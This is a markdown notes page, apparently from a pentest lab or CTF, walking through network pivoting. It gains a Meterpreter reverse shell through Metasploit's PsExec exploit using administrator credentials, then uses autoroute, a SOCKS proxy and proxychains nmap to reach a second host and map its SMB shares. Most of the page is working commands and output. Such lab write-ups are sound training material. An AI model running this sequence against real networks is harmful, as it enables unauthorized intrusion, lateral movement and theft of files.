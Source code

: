 ```yaml
---
layout: default
title: Pivoting
parent: Shells
nav_order: 5
---
```


# Pivoting

---

## Pivoting with Autoroute

There are two target machines:

1. Primary: 10.4.21.236
2. Secondary: 10.4.25.206

We can access the Primary target, but will need to use pivoting to access the Secondary target.

Gain initial access to the Primary target using Metasploit PsExec exploit.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ msfconsole -q
msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.4.21.236
RHOSTS => 10.4.21.236
msf6 exploit(windows/smb/psexec) > set SMBUser administrator
SMBUser => administrator
msf6 exploit(windows/smb/psexec) > set SMBPass password1
SMBPass => password1
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.80.3:4444
[*] 10.4.21.236:445 - Connecting to the server...
[*] 10.4.21.236:445 - Authenticating to 10.4.21.236:445 as user 'administrator'...
[*] 10.4.21.236:445 - Selecting PowerShell target
[*] 10.4.21.236:445 - Executing the payload...
[+] 10.4.21.236:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.4.21.236
[*] Meterpreter session 1 opened (10.10.80.3:4444 -> 10.4.21.236:49241 ) at 2023-11-30 10:07:15 +0530

```

We can demonstrate the ability to ping the Secondary target from the Primary target

```bash
C:\Windows\system32>ping 10.4.25.206
ping 10.4.25.206

Pinging 10.4.25.206 with 32 bytes of data:
Reply from 10.4.25.206: bytes=32 time<1ms TTL=128
Reply from 10.4.25.206: bytes=32 time<1ms TTL=128
Reply from 10.4.25.206: bytes=32 time<1ms TTL=128
Reply from 10.4.25.206: bytes=32 time<1ms TTL=128

```

First, we use _autoroute_ within the Meterpreter session to add the route to the Secondary target.

Be sure to set the IP address as the Secondary target with the proper subnet mask
{: .warn}

```bash
meterpreter > run autoroute -s 10.4.25.206/20

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.4.25.206/255.255.240.0...
[+] Added route to 10.4.25.206/255.255.240.0 via 10.4.21.236
[*] Use the -p option to list all active routes

```

Next, we start the _socks4a_ server using Metasploit module _socks_proxy_.

```bash
# background the session
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/smb/psexec) >

# use the module socks_proxy module
msf6 exploit(windows/smb/psexec) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set VERSION 4a
VERSION => 4a
msf6 auxiliary(server/socks_proxy) > exploit
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy


```

We can demonstrate that we can reach the open ports of the Secondary target now using the Metasploit module _/auxiliary/scanner/portscan/tcp_

```bash
msf6 auxiliary(server/socks_proxy) > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.4.25.206
RHOSTS => 10.4.25.206
msf6 auxiliary(scanner/portscan/tcp) > exploit

[+] 10.4.25.206:          - 10.4.25.206:135 - TCP OPEN
[+] 10.4.25.206:          - 10.4.25.206:139 - TCP OPEN
[+] 10.4.25.206:          - 10.4.25.206:445 - TCP OPEN

```

Finally, we can use _proxychains_ to access the Secondary target by pivoting through our _autoroute_ configuration on the Primary target.

Note: The support for proxy with nmap is very limited. Especially you cannot do any kind of ICMP (ping) or UDP scans, no SYN stealth scan, no OS detection etc. This means that the default nmap commands you are using will not work with a proxy and depending on the implementation will either fail or will bypass the proxy. You have to limit yourself to only the kind of scanning which is supported through proxies, i.e. simple TCP connections.
{: .warn }

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ proxychains nmap 10.4.25.206 -Pn -sT -sV -p445
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2023-11-30 10:31 IST
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.25.206:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.25.206:445  ...  OK

PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OS: Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.55 seconds
```

Let's try to access the SMB share on the Secondary Target

```bash
meterpreter > shell
Process 2144 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>net view 10.4.25.206
net view 10.4.25.206
System error 5 has occurred.

Access is denied.

```

We receive an error and have to migrate the process.

```bash
meterpreter > migrate -N explorer.exe
[*] Migrating from 1892 to 2560...
[*] Migration completed successfully.
meterpreter > shell
Process 1796 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>net view 10.4.25.206
net view 10.4.25.206
Shared resources at 10.4.25.206



Share name  Type  Used as  Comment

-------------------------------------------------------------------------------
Documents   Disk
K           Disk
The command completed successfully.

```

Now we can use the _net view_ command to add the remote shares on the Secondary target

```bash
C:\Windows\system32>net view 10.4.25.206
net view 10.4.25.206
Shared resources at 10.4.25.206



Share name  Type  Used as  Comment

-------------------------------------------------------------------------------
Documents   Disk
K           Disk
The command completed successfully.


C:\Windows\system32>net use D: \\10.4.25.206\Documents
net use D: \\10.4.25.206\Documents
The command completed successfully.


C:\Windows\system32>net use K: \\10.4.25.206\K$
net use K: \\10.4.25.206\K$
The command completed successfully.
```

And finally we can access the mapped shares with the _dir_ command and the Drive letter mapped

```bash
C:\Windows\system32>dir D:
dir D:
 Volume in drive D has no label.
 Volume Serial Number is 5CD6-020B

 Directory of D:\

01/04/2022  05:22 AM    <DIR>          .
01/04/2022  05:22 AM    <DIR>          ..
01/04/2022  05:07 AM             1,425 Confidential.txt
01/04/2022  05:22 AM                70 FLAG2.txt
               2 File(s)          1,495 bytes
               2 Dir(s)   6,597,632,000 bytes free

C:\Windows\system32>dir K:
dir K:
 Volume in drive K is New Volume
 Volume Serial Number is E654-107F

 Directory of K:\

11/17/2021  03:34 PM           327,590 wallpaper.png
               1 File(s)        327,590 bytes
               0 Dir(s)  10,951,335,936 bytes free

```
